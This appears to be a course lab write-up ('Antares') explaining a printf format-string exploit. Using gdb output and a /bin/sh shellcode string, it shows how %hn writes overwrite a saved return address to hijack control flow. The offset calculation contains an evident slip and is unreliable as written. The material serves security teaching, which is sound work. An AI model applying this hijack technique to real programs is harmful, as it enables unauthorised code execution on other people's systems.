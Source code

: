 # 06 - Antares Writeup

## Main Idea

The code is vulnerable because of the printf function. We can define arguments to write what we want to memory.
Before that, we need to know the steps of printf. You can see the detail in [task-description](https://sp24.cs161.org/proj1/q6/)

## Exploit steps

First, find the address of shellcode `0xffffd7f8`, which will be passed by argv in main.

``` C++
(gdb) p argv[1]
$2 = 0xffffd7f8 "j2X̀\211É\301jGX̀1\300Ph-iii\211\342Ph+mmm\211\341Ph//shh/bin\2
11\343PRQS\211\341\061Ұ\v̀"
```

Second, step into calibrate, file the address of buf `0xffffd5d0` and RIP of calibrate `0xffffd5bc`.

```C++
(gdb) i f
Stack level 0, frame at 0xffffd5c0:
 eip = 0x8049224 in calibrate (calibrate.c:10); saved eip = 0x804928f
 called by frame at 0xffffd670
 source language c.
 Arglist at 0xffffd5b8, args: buf=0xffffd5d0 ""
 Locals at 0xffffd5b8, Previous frame's sp is 0xffffd5c0
 Saved registers:
  ebp at 0xffffd5b8, eip at 0xffffd5bc
(gdb) x/16x buf
0xffffd5d0:     0x00001000      0x00000000      0x00000000      0x0804904a
0xffffd5e0:     0x00000000      0x000003ee      0x000003ee      0x000003ee      
0xffffd5f0:     0x000003ee      0xffffd7db      0x178bfbff      0x00000064      
0xffffd600:     0x00000000      0x00000000      0x00000000      0x00000000
```

Third, we need to find address of fmt of printf `0xffffd590`. Then, we need to calculate the offset between the address of fmt and the address of buf is `0xffffd5d0 - (0xffffd5d0 + 4)` = 60bytes = 15words, note, per %c will consume one word  .

Fourth，we need to write the address of shellcode into RIP using %hn and %u.
%hn is the target address, and %_u is the number we have printf.
According to the hint, the address will be split into two parts.

- First part, %hn (target address) is `0xffffd5bc`,  %_u is the first half of `0xffffd7f8` = `0xd7f8`, first half of shellcode address. we have printf 16(AAAA+addr+AAAA+addr) + 15(%c), the number will be `0xd7f8 - 31`.
- Second part, %u (number we have printf) is `0xffff - 0xd7f8`.

## Exploit GDB Output

before attack

```C++
(gdb) x 0xffffd5bc
0xffffd5bc:     0x0804928f
```

after attack

```  C++
(gdb) x 0xffffd5bc
0xffffd5bc:     0xffffd7f8
```
